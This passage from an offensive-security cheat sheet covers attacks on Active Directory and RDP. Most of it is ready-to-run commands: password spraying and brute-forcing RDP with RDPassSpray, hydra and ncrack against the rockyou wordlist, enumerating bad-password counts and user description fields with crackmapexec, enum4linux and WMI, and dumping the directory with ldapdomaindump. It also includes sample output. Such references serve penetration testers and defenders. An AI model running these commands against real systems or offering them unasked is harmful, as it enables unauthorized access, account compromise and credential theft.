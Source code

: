 ### Spray passwords against the RDP service

* Using [RDPassSpray](https://github.com/xFreed0m/RDPassSpray) to target RDP services.
  ```powershell
  git clone https://github.com/xFreed0m/RDPassSpray
  python3 RDPassSpray.py -u [USERNAME] -p [PASSWORD] -d [DOMAIN] -t [TARGET IP]
  ```
* Using [hydra](https://github.com/vanhauser-thc/thc-hydra) and [ncrack](https://github.com/nmap/ncrack) to target RDP services.
  ```powershell
  hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://10.10.10.10
  ncrack –connection-limit 1 -vv --user administrator -P password-file.txt rdp://10.10.10.10
  ```

### BadPwdCount attribute

> The number of times the user tried to log on to the account using an incorrect password. A value of 0 indicates that the value is unknown.

```powershell
$ crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --users
LDAP        10.0.2.11       389    dc01       Guest      badpwdcount: 0 pwdLastSet: <never>
LDAP        10.0.2.11       389    dc01       krbtgt     badpwdcount: 0 pwdLastSet: <never>
```


## Password in AD User comment

```powershell
$ crackmapexec ldap domain.lab -u 'username' -p 'password' -M user-desc
$ crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 -M get-desc-users
GET-DESC... 10.0.2.11       389    dc01    [+] Found following users: 
GET-DESC... 10.0.2.11       389    dc01    User: Guest description: Built-in account for guest access to the computer/domain
GET-DESC... 10.0.2.11       389    dc01    User: krbtgt description: Key Distribution Center Service Account
```

There are 3-4 fields that seem to be common in most AD schemas: `UserPassword`, `UnixUserPassword`, `unicodePwd` and `msSFU30Password`.

```powershell
enum4linux | grep -i desc

Get-WmiObject -Class Win32_UserAccount -Filter "Domain='COMPANYDOMAIN' AND Disabled='False'" | Select Name, Domain, Status, LocalAccount, AccountType, Lockout, PasswordRequired,PasswordChangeable, Description, SID
```

or dump the Active Directory and `grep` the content.

```powershell
ldapdomaindump -u 'DOMAIN\john' -p MyP@ssW0rd 10.10.10.10 -o ~/Documents/AD_DUMP/
```


## Password of Pre-Created Computer Account
